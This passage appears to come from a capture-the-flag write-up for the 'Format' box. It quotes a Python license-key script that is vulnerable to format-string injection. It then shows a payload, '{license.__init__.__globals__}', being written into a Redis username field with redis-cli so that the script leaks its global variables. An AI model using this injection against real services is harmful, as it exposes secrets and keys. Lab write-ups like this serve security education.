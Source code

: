 ```python
    all_keys = existing_keys.readlines()
    for user_key in all_keys:
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
    print("")
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```
The "misconfiguration" is far from obvious, and it is easy to overlook. However, this is where the namesake of the box "Format" comes into play: the vulnerability lies in how python handles content with the format function from the strings package. You can read more about the vulnerability [here](https://podalirius.net/en/articles/python-format-string-vulnerabilities/). Within our code, there is a format function for the license_key:
```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```
Since username is something that we can influence, we will make a username with our payload:
```
{license.__init__.__globals__}
```
According to the article, this should display a list of all global variables for the python process when license_key is printed. Going through the registration page does not allow for odd characters, but now we can just access the database directly with `redis-cli`:
```
redis /var/run/redis/redis.sock> HSET asdf username {license.__init__.__globals__} password asdf first-name asdf last-name asdf pro true
(integer) 0
```
